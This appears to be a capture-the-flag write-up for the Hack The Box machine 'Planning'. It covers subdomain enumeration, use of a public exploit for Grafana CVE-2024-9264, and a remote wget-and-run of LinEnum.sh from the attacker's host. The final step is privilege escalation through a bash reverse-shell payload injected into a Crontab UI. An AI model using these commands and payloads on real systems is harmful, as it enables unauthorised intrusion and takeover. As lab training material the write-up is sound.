

# 🗂️Planning

## 🧠Summary
  > The target machine "Planning" exposes a misconfigured Grafana 11 instance on a subdomain, grafana.planning.htb, which is vulnerable to Remote Code Execution (RCE) via the SQL Expressions feature. This vulnerability, tracked as CVE-2024-9264, allows post-processing of query data using DuckDB, which fails to sanitize user-supplied SQL properly. By exploiting this flaw, we were able to gain remote command execution inside a Docker container. Further enumeration led to credential discovery and access to a Crontab UI interface hosted on port 8000. By injecting a reverse shell payload through the scheduler interface, we achieved privilege escalation and accessed the root flag.
  
  > The link to the git repo 👉 [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v planning.htb
  ```
- The result of the nmap scan is 
- The ssh and http ports are open

## 🌐Step 2 (Web enumeration)
- Did web enumeration manual and used dirsearch but found nothing useful
  
- As a result decided to find if any subdomain exist, used gobuster and a custom generated wordlist from chatgpt
  ```bash
  gobuster dns -d planning.htb -w /home/raihan/Documents/m_planning/wordlist.txt --no-error
  ```
  
- Here found that a subdomain grafana exist
- Entered the webpage grafana.planning.htb and found a login page and logged in using the given creds

## 📌Step 3 (Loop hole)
- Searched in web about grafana and found two important links leading to the successful pawning of this machine
- Link 1 (write up about grafana's vulnerablity) 👉 [https://grafana.com/blog/security_vulnerabity](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/)
- Link 2 (Exploit found for the CVE-2024-9264) 👉 [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)
- Downloaded the exploit code using git clone
  ```bash
  git clone https://github.com/nollium/CVE-2024-9264
  ```
- Executed the downloaded exploit and tryed to dump the /etc/passwd file and found out that the output shows that it is the root of docker
- So used LinEnum.sh to escape from the docker
- After hosting LinEnum in my machine used the command
  ```bash
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://<your-ip>:<port>/LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "chmod +x LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "./LinEnum.sh" http://grafana.planning.htb
  ```
- After execution got the creds username and password
  

## ⚓Step 4(Foothold)
- SSH into the machine using the obtained creds
  ```bash
  ssh enzo@planning.htb
  ```
- Gained the shell and obtained the user flag
- Checked if any binary misconfig or any non password executable binary exist but non
- Proceeded on checking each directory and found a crontab.db
- Cat the file and found a password
- Further checked if any additional proccess is happening using
  ```bash
  netstat -tulpn
  ```
- Found it is hosting a webpage in port 8000
  ```bash
  ssh 8000:localhosts:8000 enzo@planning.htb
  ```
- Found a webpage that hosts crontab
  [](./screenshots/crontab_web.png)
- Inserted a malicious code that connects to my machine using netcat to gain root shell
  ```bash
  /bin/bash -i >& /dev/tcp/<your ip>/<your port> 0>&1
  ```
- Gained the root shell and got the root flag 🚩
